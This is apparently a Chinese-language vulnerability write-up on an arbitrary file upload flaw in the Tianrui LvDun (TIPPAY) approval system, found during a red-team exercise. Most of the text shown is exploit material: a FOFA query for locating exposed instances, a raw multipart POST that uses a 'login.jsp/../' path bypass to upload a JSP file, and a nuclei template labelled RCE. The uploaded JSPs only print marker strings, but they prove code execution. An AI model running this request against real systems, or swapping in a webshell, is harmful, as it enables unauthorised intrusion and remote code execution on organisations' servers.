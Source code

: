 # [1Day分析]天锐绿盾审批系统uploadWxFile任意文件上传代码分析复现

## 前言

打hvv遇到的，是任意文件上传的洞，网上还未全面公开，DayDayPoc上要30个积分兑换。其实这个洞相对简单，很适合我这种Java代审小白的体质，本着分析学习的态度，于是有了这篇文章。第一次写漏洞分析的文章，大佬可以不用看了，因为分析得比较基础且啰嗦，当然如果有写得不对的地方还请师傅们多多指教dd~

![image-20250811090534161](https://s2.loli.net/2025/08/11/Y5xn3y6s4SiVGTA.png)

## POC

### fofa指纹

```
app="TIPPAY-绿盾审批系统"
```

### http数据包

```http
POST /trwfe/login.jsp/../config/uploadWxFile.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Connection: close
Content-Length: 222
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynvgfpfpm
Accept-Encoding: gzip

------WebKitFormBoundarynvgfpfpm
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%out.print("The system has serious vulnerabilities");%>
------WebKitFormBoundarynvgfpfpm--
```

### nuclei-yaml

```yaml
id: TianRui-LvDun-UploadWxFile-RCE
info:
  name: 天锐绿盾审批系统-uploadWxFile.do-任意文件上传
  author: X1ly?S
  severity: critical
  description: 天锐绿盾审批系统-uploadWxFile.do-任意文件上传导致RCE
http:
  - raw:
      - |-
        POST /trwfe/login.jsp/../config/uploadWxFile.do HTTP/1.1
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynvgfpfpm
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36

        ------WebKitFormBoundarynvgfpfpm
        Content-Disposition: form-data; name="file"; filename="rf67ugji89gcs.jsp"
        Content-Type: application/octet-stream

        <%out.print("r768hvdesdi");%>
        ------WebKitFormBoundarynvgfpfpm--
    matchers:
      - type: status
        status:
```